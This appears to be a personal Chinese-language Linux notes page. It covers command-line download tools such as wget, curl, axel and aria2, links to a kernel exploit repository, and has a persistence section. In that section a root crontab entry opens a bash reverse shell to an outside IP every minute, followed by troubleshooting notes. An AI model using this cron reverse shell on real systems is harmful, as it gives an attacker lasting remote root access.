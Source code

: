 # Linux

[bsauce/kernel-exploit-factory: Linux kernel CVE exploit analysis report and relative debug environment. You don't need to compile Linux kernel and configure your environment anymore. --- bsauce/kernel-exploit-factory：Linux 内核 CVE 漏洞利用分析报告和相关调试环境。您不再需要编译 Linux 内核和配置您的环境。 (github.com)](https://github.com/bsauce/kernel-exploit-factory)

---

## 命令行-下载

### wget

```bash
# 直接下载 
wget http://www.sample-videos.com/video/mp4/big.mp4
# 后台下载
wget -b http://www.sample-videos.com/video/mp4/big.mp4
# 如果网络连接中断,恢复下载
wget -c http://www.sample-videos.com/video/mp4/big.mp4
# 从某个密码保护的 ftp 软件库下载文件
wget --ftp-user=<user_name> --ftp-password=<Give_password> Download-url-address
```

---

### curl

Curl 是另一种高效的下载工具，它可以用来上传或下载文件，只要使用一个简单的命令。它支持暂停和恢复下载程序包，并支持数量最多的 Web 协议，可预测下载完成还剩余多少时间，可通过进度条来显示下载进度。它是所有 Linux 发行版的内置工具。

```bash
# 直接下载
curl -o um.mp4 http://www.sample-videos.com/video/mp4/big.mp4
```

- `-o` : 提供名称，下载文件会以该名称保存
- `-O` : 文件就会以原始名称保存

---

### Axel

这是 wget 的出色替代者，是一款轻量级下载实用工具。它实际上是个加速器，因为它打开了多路 http 连接，可下载独立文件片段，因而文件下载起来更快速。

```bash
apt-get install axel
```

```bash
# 直接下载
axel http://www.sample-videos.com/video/mp4/big.mp4
```

---

### Aria2

这是一种开源命令行下载加速器，支持多个端口，你可以使用最大带宽来下载文件，是一款易于安装、易于使用的工具。

```bash
apt-get install aria2
```

```bash
# 直接下载
aria2c http://www.sample-videos.com/video/mp4/big.mp4
```

---

## 权限维持

### 计划任务

检查任务计划服务是否正常运行

```bash
service cron status
```

![image-20241112155442750](http://cdn.ayusummer233.top/DailyNotes/202411121554522.png)

---

查看当前计划任务

```bash
crontab -l
```

![image-20241112155919656](http://cdn.ayusummer233.top/DailyNotes/202411121559597.png)

---

写入计划任务

```bash
echo "*/1 * * * * bash -i >& /dev/tcp/100.1.1.131/7778 0>&1" > /var/spool/cron/crontabs/root

echo "*/1 * * * * echo 233>>/tmp/233" >> /var/spool/cron/crontabs/root
```

---

要删除这个计划任务需要编辑 `/var/spool/cron/crontabs/root`文件, 把这行删除即可

---

> 奇怪的是 log 显示运行完了, 但是收不到 shell:
>
> ![image-20241112180823702](http://cdn.ayusummer233.top/DailyNotes/202411121808685.png)
>
> ![image-20241112181122435](http://cdn.ayusummer233.top/DailyNotes/202411121939089.png)

所以我们需要修改一下方案, 不直接在计划任务中执行命令, 而是将命令写在脚本里然后计划任务执行脚本

![image-20241113144451522](http://cdn.ayusummer233.top/DailyNotes/202411131445673.png)

![image-20241113144504445](http://cdn.ayusummer233.top/DailyNotes/202411131445449.png)

![image-20241113144531353](http://cdn.ayusummer233.top/DailyNotes/202411131445018.png)

![image-20241113144539172](http://cdn.ayusummer233.top/DailyNotes/202411131445588.png)

















